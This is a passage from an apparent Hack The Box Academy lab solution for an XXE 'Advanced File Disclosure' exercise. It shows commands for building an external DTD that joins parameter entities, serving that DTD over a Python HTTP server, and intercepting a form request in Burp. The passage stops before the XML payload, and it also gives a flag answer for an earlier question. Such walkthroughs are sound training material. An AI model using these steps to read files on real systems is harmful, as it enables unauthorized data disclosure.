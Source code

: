 ![[HTB Solutions/CPTS/z. images/7e7a049868ce538952ac1f7c03aa2bd3_MD5.jpg]]

Answer: `UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg`

# Advanced File Disclosure

## Question 1

### "Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error')."

The `CDATA` method will be used first.

After spawning the target machine, students first need to create a `DTD` file on Pwnbox/`PMVPN` utilizing the XML Parameter Entities:

Code: shell

```shell
echo '<!ENTITY joined "%begin;%file;%end;">' > XXE.dtd
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo '<!ENTITY joined "%begin;%file;%end;">' > XXE.dtd
```

Afterward, students need to start an HTTP server, such as with Python:

Code: shell

```shell
python3 -m http.server PWNPO
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Subsequently, students need to navigate to `/index.php` and provide dummy data to the required fields. Thereafter, students need to run Burp Suite, make sure that FoxyProxy is set to the preconfigured option "Burp (8080)" in Firefox, and intercept the form request to `/index.php`:

![[HTB Solutions/CPTS/z. images/b15d0fee59e120d4ade4ed497726c7fc_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/3cb890bc401bbea9094d413a2775f7b7_MD5.jpg]]

Students then need to append the following XML data after `<?xml version="1.0" encoding="UTF-8"?>` and place `&joined;` in the email element:

Code: xml
